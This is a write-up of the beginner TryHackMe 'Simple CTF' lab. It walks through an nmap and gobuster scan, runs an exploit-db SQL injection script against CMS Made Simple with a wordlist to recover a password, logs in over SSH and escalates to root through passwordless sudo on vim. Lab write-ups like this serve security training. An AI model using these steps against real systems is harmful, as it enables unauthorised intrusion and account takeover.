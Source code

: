 ```yaml
---
title: "Simple CTF TryHackMe"
date: "07-22-2021"
author: "Reda BELHAJ"
summary: "Simple CTF is a beginner level boot2root room from TryHackme made by Mr.Seth6797."
tags: ["TryHackMe", "Ctf", "Writeup"]
image: "/images/Simple/Simple.png"
---
```


## Enumeration
### Nmap Scan
The first step of my enumeration was a scan with **nmap**. by the command:

```
nmap 10.10.198.35 -sC 
```

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-22 13:14 EDT
Nmap scan report for 10.10.198.35
Host is up (0.11s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.174.180
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  EtherNetIP-1
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)

Nmap done: 1 IP address (1 host up) scanned in 40.71 seconds

```

The “Nmap Output” displayed `2` services running under port 1000 and ssh service running on the higher port.

### Gobuster Scan
I next decided to run a gobuster scan on the webserver to see if there were any interesting hidden directories, by the command:

```
gobuster dir -u http://10.10.198.35  -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x html,xml,php
```

![Gobuster](/images/Simple/gobuster.jpg)

## Exploring 

Browsing to ***http://10.10.198.35/simple*** gives us the version of CMS Made Simple:

![Version](/images/Simple/version.jpg)

I then searched for the cve on [exploit-db](https://www.exploit-db.com/exploits/46635) and found the cve with the exploit:

![CVE](/images/Simple/cve.jpg)

## Exploiting

Then I run the exploit using python (version 2.7) inside a virtual environment:

```
python cms_pa.py -u http://10.10.198.35/simple/ -c -w rockyou.txt
```

![Password](/images/Simple/password.jpg)

## User Flag

And now I tried to access SSH with the credentials that We found:

```
mitch@secret
```

```
ssh -p 2222 mitch@10.10.198.35
```

```
G00d *************
```

## Root Flag

So now I tried the infamous `sudo -l` comand to privilege escalate the system

```
sudo -l
```
And i found that **mitch** can run vim with root privileges with ***NOPASSWD***

```
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

![SUID]("/images/Simple/suid.jpg")

And now we're root:

```
W3ll d*****************
```